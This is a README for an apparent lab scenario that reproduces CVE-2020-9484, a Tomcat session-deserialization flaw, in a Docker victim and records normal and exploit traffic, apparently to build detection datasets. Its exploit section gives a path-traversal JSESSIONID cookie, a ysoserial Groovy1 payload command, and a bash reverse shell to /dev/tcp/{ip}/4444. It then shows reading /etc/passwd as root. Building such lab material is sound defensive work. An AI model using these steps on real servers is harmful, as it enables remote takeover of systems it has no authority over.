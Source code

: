 # CVE-2020-9484 Tomcat Deserialization

## Description / Overview of Scenario

If a Apache Tomcat Server of certain versions is used configured in a specific way (described below)an attacker can trigger an remote code execution via deserialization with a crafted request.

## victim:

Docker container base from https://github.com/masahiro331/CVE-2020-9484.

uploading-migrated.war is custom webapplication to upload and show files.
groovy-2.3.9.jar is vulnerable webapplication implementing the following flaws.

Apache Tomcat versions 10.0.0-M1 to 10.0.0-M4, 9.0.0.M1 to 9.0.34, 8.5.0 to 8.5.54 and 7.0.0 to 7.0.103
Following things must be true for the vulnerability to be accessible:
* The server is configured to use the PersistenceManager with a FileStore; and
* The PersistenceManager is configured with sessionAttributeValueClassNameFilter="null" (the default unless a SecurityManager is used) or a sufficiently lax filter to allow the attacker provided object to be deserialized; and
* An attacker is able to control the contents and name of a file on the server; and
* The attacker knows the relative file path from the storage location used by FileStore to the file the attacker has control over;
    https://nvd.nist.gov/vuln/detail/CVE-2020-9484

Includes a uploading and downloading web application written with Spring boot (war file).

Steps to reproduce web application file:

* Clone example web application from 
    git clone https://github.com/spring-guides/gs-uploading-files.git
* Follow tutorial at: https://spring.io/guides/gs/uploading-files/

* Change needed things to create war file
    * Add:
      ```xml
        <packaging>war</packaging>
        <dependencies>
            ...
            <dependency>
               <groupId>org.springframework.boot</groupId>
               <artifactId>spring-boot-starter-tomcat</artifactId>
               <scope>provided</scope>
           </dependency>
           ...
        </dependencies>
        ```
        
   *  In Application.java add:
        ```javascript
        import org.springframework.boot.web.servlet.support.SpringBootServletInitializer;

        public class Application extends SpringBootServletInitializer{
            ...
            @Override
            protected SpringApplicationBuilder configure(SpringApplicationBuilder application) {
                 return application.sources(Application.class);
            }
        }
        ```


* Compile in /initial with ./mvnw clean package

* Convert application to be able to run unter Tomcat 10

    * Download migration tool: https://tomcat.apache.org/download-migration.cgi
    * and run in initial/target:
            
            java -jar jakartaee-migration-*-shaded.jar uploading.war uploading-migrated.war 

## normal
Upload and download files from victim.
Uploaded files are txt files filled with random strings, so sizes differ.

## exploit:

Uploading a crafted payload created with ysoserial.jar. 

It is possible to send crafted POST request with JSESSIONID set to a specific path.

The Victim then tries to load a SessionID which is not available.

Because of the PersistanceManager a Session is loaded from the specified path.

E.g: 
    
    Cookie : "JSESSIONID=../../../../upload-dir/executePayload.session"
This session is then deserialized and enables remote code execution as root user.
With ysoserial and the following command a malicious binary is created.

Create payload with reverse shell

    #!/usr/bin/bash
    echo "bash -i >& /dev/tcp/{ip}/4444 0>&1"
    
Run the payload uploaded through the website.

    java -jar ysoserial.jar Groovy1 'bash /tmp/payload.sh' > executePayload.session
    
Start listener and wait for connection from victim.

Send the following to test connection and then make use of root rights.
    
    whoami
    cat /etc/passwd

## cli:

    sudo python3 main.py a b c
    
    a: boolean (0/1) run automated normal behavior
    b: integer recording time
       1-n: recording time in seconds
        -1: flag to run auto stop of recording after end of exploit
    c: boolean (0/1) run automated exploit

